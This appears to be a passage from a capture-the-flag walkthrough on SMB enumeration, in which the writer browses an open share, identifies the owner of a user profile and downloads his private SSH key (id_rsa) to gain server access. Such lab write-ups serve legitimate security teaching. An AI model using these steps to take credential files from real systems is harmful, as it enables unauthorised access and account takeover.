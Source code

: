 Great! Have a look around for any interesting documents that could contain valuable information. Who can we assume this profile folder belongs to?
```bash
smb: \> dir
  .                                   D        0  Tue Apr 21 07:08:23 2020
  ..                                  D        0  Tue Apr 21 06:49:56 2020
  .cache                             DH        0  Tue Apr 21 07:08:23 2020
  .profile                            H      807  Tue Apr 21 07:08:23 2020
  .sudo_as_admin_successful           H        0  Tue Apr 21 07:08:23 2020
  .bash_logout                        H      220  Tue Apr 21 07:08:23 2020
  .viminfo                            H      947  Tue Apr 21 07:08:23 2020
  Working From Home Information.txt      N      358  Tue Apr 21 07:08:23 2020
  .ssh                               DH        0  Tue Apr 21 07:08:23 2020
  .bashrc                             H     3771  Tue Apr 21 07:08:23 2020
  .gnupg                             DH        0  Tue Apr 21 07:08:23 2020

                12316808 blocks of size 1024. 7584028 blocks available

smb: \> get "Working From Home Information.txt" 
getting file \Working From Home Information.txt of size 358 as Working From Home Information.txt (0.4 KiloBytes/sec) (average 0.4 KiloBytes/sec)
```
If we open the file, it's look like this:
```
John Cactus,

As you're well aware, due to the current pandemic most of POLO inc. has insisted that, wherever 
possible, employees should work from home. As such- your account has now been enabled with ssh
access to the main server.

If there are any problems, please contact the IT department at it@polointernalcoms.uk

Regards,

James
Department Manager 
```
So, the profile belongs to **John Cactus**.

What service has been configured to allow him to work from home?
- **ssh**.

Okay! Now we know this, what directory on the share should we look in?
- **.ssh**.

This directory contains authentication keys that allow a user to authenticate themselves on, and then access, a server. Which of these keys is most useful to us?
```bash
smb: \> cd .ssh
smb: \.ssh\> dir
  .                                   D        0  Tue Apr 21 07:08:23 2020
  ..                                  D        0  Tue Apr 21 07:08:23 2020
  id_rsa                              A     1679  Tue Apr 21 07:08:23 2020
  id_rsa.pub                          N      396  Tue Apr 21 07:08:23 2020
  authorized_keys                     N        0  Tue Apr 21 07:08:23 2020

                12316808 blocks of size 1024. 7584028 blocks available
smb: \.ssh\> get "id_rsa"
smb: \.ssh\> get "id_rsa.pub"
```
